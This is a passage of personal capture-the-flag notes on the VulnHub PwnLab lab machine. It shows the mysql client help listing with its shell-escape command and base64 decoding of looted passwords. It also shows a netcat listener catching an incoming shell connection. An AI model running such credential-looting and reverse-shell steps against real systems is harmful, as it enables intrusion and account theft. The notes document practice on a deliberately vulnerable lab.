 ```sql
edit      (\e) Edit command with $EDITOR.
ego       (\G) Send command to mysql server, display result vertically.
exit      (\q) Exit mysql. Same as quit.
go        (\g) Send command to mysql server.
help      (\h) Display this help.
nopager   (\n) Disable pager, print to stdout.
notee     (\t) Don't write into outfile.
pager     (\P) Set PAGER [to_pager]. Print the query results via PAGER.
print     (\p) Print current command.
prompt    (\R) Change your mysql prompt.
quit      (\q) Quit mysql.
rehash    (\#) Rebuild completion hash.
source    (\.) Execute an SQL script file. Takes a file name as an argument.
status    (\s) Get status information from the server.
system    (\!) Execute a system shell command.
tee       (\T) Set outfile [to_outfile]. Append everything into given outfile.
use       (\u) Use another database. Takes database name as argument.
charset   (\C) Switch to another charset. Might be needed for processing binlog with multi-byte charsets.
warnings  (\W) Show warnings after every statement.
nowarning (\w) Don't show warnings after every statement.

For server side help, type 'help contents'

MySQL [(none)]> tee
No previous outfile available, you must give a filename!
```

```bash
root@kali:/mnt/hgfs/my-notes-and-snippets/notes/ctfs/vulnhub/pwnlab/loot# echo Sld6WHVCSkpOeQ== | base64 -d
JWzXuBJJNy
root@kali:/mnt/hgfs/my-notes-and-snippets/notes/ctfs/vulnhub/pwnlab/loot# echo U0lmZHNURW42SQ== | base64 -d
SIfdsTEn6I
root@kali:/mnt/hgfs/my-notes-and-snippets/notes/ctfs/vulnhub/pwnlab/loot# echo aVN2NVltMkdSbw== | base64 -d
iSv5Ym2GRo
```

#### mysql shell to local shell

I was today years old when I learned that system command of mysql runs LOCAL not remote.

![png](https://raw.githubusercontent.com/justin-p/my-notes-and-snippets/master/.gitbook/assets/IMG/pwnlab_localshelll.png)

![gif](https://raw.githubusercontent.com/justin-p/my-notes-and-snippets/master/.gitbook/assets/IMG/pwnlab_localshelll.gif)

```bash
root@kali:/mnt/hgfs/my-notes-and-snippets/notes/ctfs/vulnhub/pwnlab/loot# nc -nlvp 808
listening on [any] 808 ...
192.168.56.102: inverse host lookup failed: Unknown host
connect to [192.168.56.102] from (UNKNOWN) [192.168.56.102] 36662
```
